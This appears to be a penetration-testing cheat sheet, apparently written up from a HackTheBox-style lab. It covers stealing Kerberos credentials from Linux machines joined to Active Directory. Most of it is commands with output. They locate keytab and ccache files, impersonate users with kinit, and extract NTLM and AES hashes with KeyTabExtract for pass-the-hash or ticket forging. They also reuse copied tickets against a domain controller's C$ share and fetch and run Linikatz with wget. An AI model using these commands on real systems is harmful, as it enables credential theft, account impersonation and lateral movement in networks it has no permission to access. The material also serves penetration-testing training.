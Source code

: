 # Content 
- [Identifying Linux and Active Directory Integration](#identifying-linux-and-active-directory-integration)
  - [realm - Check If Linux Machine is Domain Joined](#realm---check-if-linux-machine-is-domain-joined)
  - [command line - Check if Linux Machine is Domain Joined](#command-line---check-if-linux-machine-is-domain-joined) 
- [Finding Kerberos Tickets in Linux](#finding-kerberos-tickets-in-linux)
  - [Finding Keytab Files](#finding-keytab-files)
  - [Finding ccache Files](#finding-ccache-files)
- [Abusing KeyTab Files](#abusing-keytab-files)
- [Abusing Keytab ccache](#abusing-keytab-ccache)


## Identifying Linux and Active Directory Integration

### realm - Check If Linux Machine is Domain Joined
```
realm list
```

### command line - Check if Linux Machine is Domain Joined
we can also look for other tools used to integrate Linux with Active Directory such as `sssd` or `winbind`. 

#### check whether the Linux server is integrated with AD using PS Command
```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ ps -ef | grep -i "winbind\|sssd"
root     29912     1  0  2017 ?        00:19:09 /usr/sbin/sssd -f -D
root        2141    2140  0 Sep29 ?        00:00:08 /usr/libexec/sssd/sssd_be --domain inlanefreight.htb --uid 0 --gid 0 --logger=files

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ ps -ef | grep -i "winbind\|sssd"
root       676 21055  0  2017 ?        00:00:22 winbindd
```
#### Check whether the Linux server is integrated with AD using id Command
```powershell
$ id daygeek
uid=1918901106(daygeek) gid=1918900513(domain users) groups=1918900513(domain users)
```
#### check whether the Linux server is integrated with AD using nsswitch.conf file
```powershell
## You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files sss
shadow:         files sss

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:     files [SUCCESS=return] winbind

# You might get the output similer to below if the system is integrated with AD using ldap service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files ldap
shadow:         files ldap
```

#### check whether the Linux server is integrated with AD using system-auth file

```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_sss.so use_first_pass

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_winbind.so cached_login use_first_pass

# You might get the output similar to below if the system is integrated with AD using ldap service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_ldap.so cached_login use_first_pass

```


## Finding Kerberos Tickets in Linux

### Finding Keytab Files
- A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password).
- You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password.
- Keytab files can be created on one computer and copied for use on other computers because they are not restricted to the systems on which they were initially created.
 
#### Using Find to Search for Files with Keytab in the Name
- The ticket is represented as a keytab file located by default at /etc/krb5.keytab and can only be read by the root user.
```powershell
$ find / -name *keytab* -ls 2>/dev/null

   131610      4 -rw-------   1 root     root         1348 Oct  4 16:26 /etc/krb5.keytab
   262169      4 -rw-rw-rw-   1 root     root          216 Oct 12 15:13 /opt/specialfiles/carlos.keytab
```
#### Identifying Keytab Files in Cronjobs
- we notice the use of kinit, which means that Kerberos is in use. kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (ccache file). 
- We can use kinit to import a keytab into our session and act as the user.

```powershell
$ crontab -l

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```


### Finding ccache Files
- Linux machines store Kerberos tickets as ccache files in the `/tmp` directory.
- By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`.
- `KRB5CCNAME` variable can identify if Kerberos tickets are being used or if the default location for storing Kerberos tickets is changed.
- These ccache files are protected by reading and write permissions, but a user with elevated privileges or root privileges could easily gain access to these tickets

#### Reviewing Environment Variables for ccache Files.
```powershell
$ env | grep -i krb5

KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

#### Searching for ccache Files in /tmp
```
$ ls -la /tmp

-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab Files
- The first thing we can do is impersonate a user using `kinit`.
- To use a keytab file, we need to know which user it was created for using `klist`
### Listing keytab File Information
```powershell
$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

### Impersonating a User with a keytab
Note: To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable KRB5CCNAME.
```powershell
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
$ smbclient //dc01/carlos -k -c ls
```

### Keytab Extract
We can attempt to crack the account's password by extracting the hashes from the keytab file using [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). 
```powershell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
- With the NTLM hash, we can perform a Pass the Hash attack. 
- With the AES256 or AES128 hash, we can forge our tickets using Rubeus PtT.
- or attempt to crack the hashes to obtain the plaintext password.


## Abusing Keytab ccache
- klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work.
- ccache files are temporary. They may change or expire if the user no longer uses them or during login and logout operations.
```powershell
ls -la /tmp
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
smbclient //dc01/C$ -k -c ls -no-pass
```

## Linikatz
- [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. 
- In other words, Linikatz brings a similar principle to Mimikatz to UNIX environments.

```powershell
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```
